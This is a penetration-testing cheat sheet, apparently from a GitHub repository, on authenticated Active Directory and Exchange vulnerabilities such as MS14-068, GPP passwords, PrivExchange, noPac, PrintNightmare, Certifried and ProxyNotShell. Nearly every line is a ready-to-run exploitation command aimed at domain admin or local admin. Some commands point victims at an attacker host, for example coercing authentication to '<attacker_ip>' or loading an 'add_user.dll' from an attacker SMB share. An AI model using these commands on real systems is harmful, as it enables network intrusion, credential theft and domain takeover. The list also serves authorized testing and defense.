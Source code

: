 # Know vulnerabilities authenticated

## MS14-068 >>> PTT >>> Domain admin || Admin
- `findSMB2UPTime.py <ip>`
  - `ms14-068.py -u <user>@<domain> -p <password> -s <user_sid> -d <dc_fqdn>`
  - `msf> use auxiliary/admin/kerberos/ms14_068_kerberos_checksum`
  - `goldenPac.py -dc-ip <dc_ip> <domain>/<user>:<password>@target`

## GPP MS14-025 >>> Domain admin
- `msf> use auxiliary/scanner/smb/smb_enum_gpp`
- `findstr /S /I cpassword \\<domain_fqdn>\sysvol\<domain_fqdn>\policies\*.xml`
- `Get-GPPPassword.py <domain>/<user>:<password>@<dc_fqdn>`

## PrivExchange (CVE-2019-0724, CVE-2019-0686) >>> HTTP Coerce >>> Domain admin || Admin
- `privexchange.py -ah <attacker_ip> <exchange_host> -u <user> -d <domain> -p <password>`

## noPac (CVE-2021-42287, CVE-2021-42278) >>> PTT >>> DCSYNC >>> Domain admin
- `nxc smb <ip> -u 'user' -p 'pass' -M nopac #scan`
- `noPac.exe -domain <domain> -user <user> -pass <password> /dc <dc_fqdn> /mAccount <machine_account> /mPassword <machine_password> /service cifs /ptt`

## PrintNightmare (CVE-2021-1675, CVE-2021-34527) >>> Admin
- `nxc smb <ip> -u 'user' -p 'pass' -M printnightmare #scan`
- `printnightmare.py -dll '\\<attacker_ip>\smb\add_user.dll' '<user>:<password>@<ip>'`

## Certifried (CVE-2022-26923) >>> PTT >>> DCSYNC >>> Domain admin
- Create account
  - `certipy account create -u <user>@<domain> -p '<password>' -user 'certifriedpc' -pass 'certifriedpass' -dns '<fqdn_dc>'`
- Request
  - `certipy req -u 'certifriedpc$'@<domain> -p 'certifriedpass' -target <ca_fqdn> -ca <ca_name> -template Machine`
- Authentication
  - `certipy auth -pfx <pfx_file> -username '<dc>$' -domain <domain> -dc-ip <dc_ip>`

## ProxyNotShell (CVE-2022-41040, CVE-2022-41082) >>> Admin
- `poc_aug3.py <host> <username> <password> <command>`